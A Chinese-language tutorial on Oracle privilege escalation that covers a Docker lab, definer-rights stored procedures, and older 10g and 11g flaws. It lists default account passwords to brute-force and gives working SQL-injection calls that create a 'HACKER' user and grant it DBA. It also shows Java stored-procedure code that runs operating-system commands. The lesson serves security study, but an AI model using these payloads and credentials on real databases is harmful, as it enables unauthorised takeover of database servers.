# 课程P1：Oracle数据库提权实战教程 🎯


在本节课中，我们将学习Oracle数据库的提权操作。主要内容包括：如何快速搭建Oracle测试环境、Oracle数据库的基本操作、获取默认密码的方法、Oracle 10g版本的提权漏洞、通过Oracle执行Java代码，以及Oracle 11g版本的一个逻辑漏洞。课程旨在让初学者能够理解并掌握Oracle提权的基本思路和核心方法。

---

## 一、 环境快速搭建 🚀





上一节我们介绍了课程概述，本节中我们来看看如何快速搭建一个用于学习和测试的Oracle数据库环境。

对于安全研究人员而言，快速复现环境是必备技能。搭建Oracle环境主要有两种途径：使用VMware虚拟机或使用Docker容器。本次推荐使用Docker，因为它能极大地节省时间。

以下是使用Docker搭建Oracle环境的核心步骤：

1.  **拉取镜像**：从Docker仓库拉取一个已封装好的Oracle数据库镜像。
    ```bash
    docker pull <oracle_image_name>
    ```
2.  **创建并运行容器**：运行容器时，需要映射Oracle的默认端口（1521）并设置允许远程访问。
    ```bash
    docker run -d -p 1521:1521 -p 22:22 --name oracle_test --restart=always <oracle_image_name>
    ```
3.  **进入容器并测试**：进入容器内部，切换到Oracle用户，连接数据库进行测试。
    ```bash
    docker exec -it oracle_test /bin/bash
    su - oracle
    sqlplus / as sysdba
    ```





通过上述命令，可以在几分钟内获得一个可用的Oracle测试环境。此外，推荐使用 `vulhub` 项目，它集成了大量漏洞环境，可以通过Docker Compose一键搭建。







**工具推荐**：
*   **MobaXterm**：功能强大的免费SSH客户端，优于Xshell。
*   **Navicat for Oracle**：图形化的Oracle数据库管理工具，界面友好，操作方便。





---


## 二、 Oracle基础与提权原理 🧠






在成功搭建环境后，我们需要理解Oracle提权操作背后的核心原理。


Oracle使用PL/SQL语言，它是对标准SQL的扩展，主要用于创建复杂的**存储过程**，以保证数据操作的原子性和稳定性。

Oracle的用户权限主要分为三种：
*   **DBA**：数据库管理员，拥有最高权限。
*   **RESOURCE**：可以创建实体（如表、存储过程），但不能操作数据库结构。
*   **CONNECT**：仅能连接数据库并查询数据。

Web应用通常使用的数据库账号只拥有 **RESOURCE** 和 **CONNECT** 权限。提权的目标就是获取 **DBA** 权限。



提权的本质是：**让一个高权限用户（如DBA）去执行能提升我们当前低权限的命令**。在Oracle中，这常通过存储过程实现，因为存储过程有一个关键特性：**定义者权限** 与 **调用者权限**。
*   **定义者权限**：存储过程运行时，拥有的是其创建者（Definer）的权限。
*   **调用者权限**：存储过程运行时，拥有的是其调用者（Invoker）的权限。

Oracle默认使用**定义者权限**。因此，如果DBA创建了一个存储过程，并授权给低权限用户调用，那么低权限用户在执行该存储过程时，实际上是以DBA的权限在运行。如果这个存储过程存在安全缺陷（如SQL注入），我们就可以利用它执行高权限操作，从而实现提权。

---

## 三、 弱口令与信息收集 🔑

在尝试利用复杂漏洞之前，最直接有效的提权方法往往是利用弱口令或获取敏感信息。




以下是Oracle数据库一些常见的默认用户名和密码（部分）：
*   sys/change_on_install
*   system/manager
*   scott/tiger
*   dbsnmp/dbsnmp


在实际渗透中，可以收集更多默认口令制成字典进行爆破。



除了爆破，还可以通过以下方式获取口令：
1.  利用SQL注入点查询数据库中的敏感信息（如密码哈希）。
2.  利用文件读取漏洞查看数据库配置文件。
3.  反编译Java环境的class文件（Oracle常与Java应用结合）。


**工具推荐**：以下工具可以自动化完成信息收集、爆破和部分提权操作：
*   **Metasploit Framework**：集成了多种Oracle攻击模块。
*   **ODAT**：专门针对Oracle数据库的渗透测试工具。
*   **Oracle Shell**：由安全研究员编写，方便进行提权操作。



对于老旧漏洞，无需手动复现所有细节，善用这些集成工具可以大大提高效率。




---





## 四、 利用存储过程实现提权 ⚙️


本节我们将通过一个实际例子，演示如何利用有缺陷的存储过程进行提权。



首先，我们模拟DBA创建一个存在SQL注入漏洞的存储过程：
```sql
CREATE OR REPLACE PROCEDURE P_HORSE_CREATE (MSG IN VARCHAR2) IS
BEGIN
    EXECUTE IMMEDIATE 'BEGIN DBMS_OUTPUT.PUT_LINE(''' || MSG || '''); END;';
END;
/
```
然后，DBA将此存储过程的执行权限授予低权限用户（如PUBLIC）：
```sql
GRANT EXECUTE ON P_HORSE_CREATE TO PUBLIC;
```




低权限用户连接数据库后，可以调用此过程。由于`MSG`参数未经过滤直接拼接进`EXECUTE IMMEDIATE`语句，导致SQL注入。虽然调用者是低权限用户，但该过程以创建者（DBA）的权限执行。

利用注入创建高权限用户：
```sql
-- 低权限用户执行以下调用
EXEC SYS.P_HORSE_CREATE('''); EXECUTE IMMEDIATE ''CREATE USER HACKER IDENTIFIED BY P@ssw0rd''; --');
```
```sql
-- 接着授予新用户DBA权限
EXEC SYS.P_HORSE_CREATE('''); EXECUTE IMMEDIATE ''GRANT DBA TO HACKER''; --');
```

这样，我们就利用有缺陷的存储过程，以DBA权限成功创建了一个拥有DBA权限的新用户 `HACKER`。这本质上是一种代码审计思路在数据库层面的应用。

---

## 五、 Oracle 10g 提权漏洞分析 🐛



Oracle 10g 版本中存在一个经典的提权漏洞，涉及 `GET_DOMAIN_INDEX_TABLES` 函数。该函数本身具有DBA权限，且存在SQL注入漏洞。



漏洞原理在于函数内部对用户可控的参数（如 `tname`, `type_name`）未进行充分过滤，直接拼接到SQL语句中执行。攻击者可以构造恶意参数，使程序执行流进入存在拼接漏洞的代码分支，从而注入任意SQL命令。



由于在DML语句中无法直接执行DDL语句（如`GRANT`），EXP中通常使用 `AUTONOMOUS_TRANSACTION` 编译指示来创建一个自治事务，从而绕过限制执行提权操作。


一个简化的利用框架如下：
```sql
CREATE OR REPLACE PROCEDURE EXPLOIT_PROCEDURE AUTHID CURRENT_USER IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO HACKER';
END;
/
```
对于此类已知的老旧漏洞，直接使用 **Metasploit** 等工具中集成的模块进行利用是最佳选择。

---






## 六、 通过Oracle执行Java代码 ☕


Oracle与Java集成紧密，PL/SQL可以调用Java代码。如果我们获得了一个可以创建存储过程的权限，就可以通过创建Java存储过程来执行系统命令，从而获得服务器操作系统权限。

核心步骤是创建一个Java类，该类包含执行系统命令的方法，然后在Oracle中将其包装成存储过程。


以下是一个概念性代码示例：
1.  在Oracle中创建Java类：
    ```sql
    CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "Exec" AS
    import java.io.*;
    public class Exec {
        public static String runCMD(String cmd) {
            try {
                Process p = Runtime.getRuntime().exec(cmd);
                ...
                return output;
            } catch (Exception e) { return e.toString(); }
        }
    };
    /
    ```
2.  创建PL/SQL包装函数来调用Java方法：
    ```sql
    CREATE OR REPLACE PROCEDURE RUN_CMD (P_CMD IN VARCHAR2) AS LANGUAGE JAVA NAME 'Exec.runCMD(java.lang.String) return String';
    /
    ```
3.  调用存储过程执行命令：
    ```sql
    EXEC RUN_CMD('whoami');
    ```






此方法需要数据库安装了Java支持，并且用户有相应的Java执行权限。





---



## 七、 Oracle 11g 权限逻辑漏洞 🔓


Oracle 11g 中存在一个逻辑漏洞，允许仅拥有 `CREATE SESSION` 权限的用户绕过限制，为自己赋予任意Java权限，进而执行Java代码获得系统权限。


漏洞的核心在于一个关键的Java类方法调用权限检查存在缺陷。攻击者可以构造特殊的调用，欺骗数据库的权限检查机制。





利用思路是：首先利用该漏洞将关键的Java权限（如 `JAVA_SYS`）授予当前用户，然后就可以像上一节所述那样，创建并执行Java存储过程。



一个公开的POC通常包含以下步骤：
1.  利用漏洞调用 `dbms_java_test.funcall()` 等函数。
2.  通过该函数将高权限的Java策略授予当前用户。
3.  创建执行系统命令的Java存储过程。
4.  执行命令，完成提权。


由于 `CREATE SESSION` 是连接数据库最基本的需求，因此该漏洞的利用门槛极低，危害极大。

---

## 八、 总结与资源 📚

本节课中我们一起学习了Oracle数据库提权的多种方法。

我们首先学习了如何使用Docker快速搭建测试环境。接着，理解了Oracle提权的核心原理在于利用**定义者权限**存储过程的缺陷。然后，我们探讨了弱口令爆破和信息收集这种最直接的“提权”方式。通过实战演示，我们看到了如何审计并利用有缺陷的存储过程进行提权。对于Oracle 10g和11g的特定漏洞，我们分析了其原理，并指出对于老旧漏洞应善用自动化工具。最后，我们介绍了通过Oracle执行Java代码这种能够获取操作系统权限的强大方法。

**核心要点回顾**：
1.  **环境**：Docker是快速搭建复现环境的利器。
2.  **原理**：提权本质是让高权限身份执行我们的命令，Oracle的**定义者权限**存储过程是关键。
3.  **思路**：从弱口令、存储过程审计、特定版本漏洞、Java扩展等多个层面寻找突破口。
4.  **工具**：合理使用MSF、ODAT等工具能事半功倍。
5.  **拓展**：提权不应局限于数据库本身，要结合操作系统、应用逻辑进行综合利用。

**推荐资源**：
*   **《网络攻防实战研究：漏洞利用与提权》**：系统化学习提权知识体系。
*   **Vulhub**：一键搭建漏洞测试环境。
*   **BlackHat/Defcon等会议PPT**：获取前沿攻防技术。
*   **安全社区**：如安全客、先知社区、漏洞银行等，保持交流与学习。


提权是一个需要不断积累技巧和拓宽思路的过程。希望本教程能为你打开Oracle数据库安全研究的大门。